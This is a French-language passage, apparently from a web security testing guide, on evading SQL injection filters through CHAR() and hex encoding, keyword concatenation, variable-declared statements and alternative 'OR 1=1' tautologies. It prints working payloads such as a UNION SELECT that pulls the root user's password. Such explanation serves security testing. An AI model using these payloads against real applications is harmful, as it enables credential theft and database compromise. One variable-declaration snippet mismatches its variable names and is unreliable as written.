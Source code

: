 #### Encodage de caractère

La fonction Char() peut être utilisée pour remplacer le caractère anglais. Par exemple, char(114,111,111,116) signifie racine

`' UNION SELECT password FROM Users WHERE name='root'--`

Pour appliquer le Char(), l'instruction d'injection SQL sera

`' UNION SELECT password FROM Users WHERE name=char(114,111,111,116)--`

#### Concaténation de chaînes

La concaténation décompose les mots-clés SQL et échappe aux filtres. La syntaxe de concaténation varie en fonction du moteur de base de données. Prenez le moteur MS SQL comme exemple

`select 1`

L'instruction SQL simple peut être modifiée comme ci-dessous en utilisant la concaténation

`EXEC('SEL' + 'ECT 1')`

#### Encodage hexadécimal

La technique de codage hexadécimal utilise le codage hexadécimal pour remplacer le caractère de l'instruction SQL d'origine. Par exemple, `root` peut être représenté par `726F6F74`

`Select user from users where name = 'root'`

L'instruction SQL en utilisant la valeur HEX sera :

`Select user from users where name = 726F6F74`

ou

`Select user from users where name = unhex('726F6F74')`

#### Déclarer des variables

Déclarez l'instruction d'injection SQL dans la variable et exécutez-la.

Par exemple, l'instruction d'injection SQL ci-dessous

`Union Select password`

Définissez l'instruction SQL dans la variable `SQLivar`

```sql
; declare @SQLivar nvarchar(80); set @myvar = N'UNI' + N'ON' + N' SELECT' + N'password');
EXEC(@SQLivar)
```

#### Expression alternative de 'ou 1 = 1'

```sql
OR 'SQLi' = 'SQL'+'i'
OR 'SQLi' &gt; 'S'
or 20 &gt; 1
OR 2 between 3 and 1
OR 'SQLi' = N'SQLi'
1 and 1 = 1
1 || 1 = 1
1 && 1 = 1
```
